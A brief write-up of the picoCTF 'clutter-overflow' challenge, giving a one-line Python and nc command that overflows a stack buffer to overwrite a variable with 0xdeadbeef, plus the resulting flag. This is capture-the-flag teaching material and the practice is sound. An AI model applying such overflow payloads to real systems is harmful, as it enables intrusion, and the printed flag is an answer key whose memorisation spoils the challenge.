

# clutter-overflow #

This is the write-up for the challenge "clutter-overflow" challenge in PicoCTF

# The challenge

## Description
AUTHOR: NOTDEGHOST

Description
Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890
the website:https://play.picoctf.org/?search=clutter-overflow


## Hints
None


# How to solve it

I open picoCTF Webshell and write:

```python -c "import sys; sys.stdout.buffer.write(b'h' * 0x108 + b'\xde\xad\xbe\xef'[::-1] + b'\n')" | nc mars.picoctf.net 31890 | grep -Eo picoCTF{.*?}```





The flag is `picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}`

Thanks 😄

Hadar Liel Harush